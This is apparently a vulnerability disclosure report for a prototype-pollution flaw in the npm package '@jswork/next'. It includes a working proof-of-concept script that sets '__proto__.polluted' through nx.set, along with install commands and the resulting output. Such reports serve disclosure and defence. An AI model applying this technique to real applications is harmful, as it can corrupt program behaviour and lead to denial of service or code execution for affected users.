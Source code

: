 # Description

`@jswork/next` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```javascript
// poc.js
var nx = require("@jswork/next")

var obj = {};
console.log("Before: " + {}.polluted);
nx.set(obj, "__proto__.polluted", "Yes, its polluted")
console.log("After: ", {}.polluted);
```
2. Execute the following commands in the terminal:
```bash
npm i @jswork/next # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: Yes, its polluted
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.